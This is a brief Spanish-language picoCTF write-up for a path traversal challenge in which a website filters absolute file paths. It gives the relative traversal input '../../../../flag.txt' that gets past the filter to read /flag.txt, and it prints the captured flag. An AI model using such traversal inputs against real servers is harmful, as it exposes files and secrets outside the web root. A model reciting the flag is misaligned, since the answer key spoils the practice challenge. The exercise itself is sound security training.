 Puntos: 200pts
# Objetivo del Nivel

Can you get the flag?Here's the [website](http://saturn.picoctf.net:64403/).
We know that the website files live in `/usr/share/nginx/html/` and the flag is at `/flag.txt` but the website is filtering absolute file paths. 
Can you get past the filter to read the flag?
# Pistas del Nivel
- (none)
# Solución/Resultado/Flag

```bash
se solicita al sitio el archivo  flag.txt

en el path se solicita:
../../../../flag.txt

flag: picoCTF{7h3_p47h_70_5ucc355_e5fe3d4d}

```

picoCTF{7h3_p47h_70_5ucc355_e5fe3d4d}
# Notas Adicionales

Tags:

AUTHOR:
# Referencias

https://play.picoctf.org/practice/challenge/
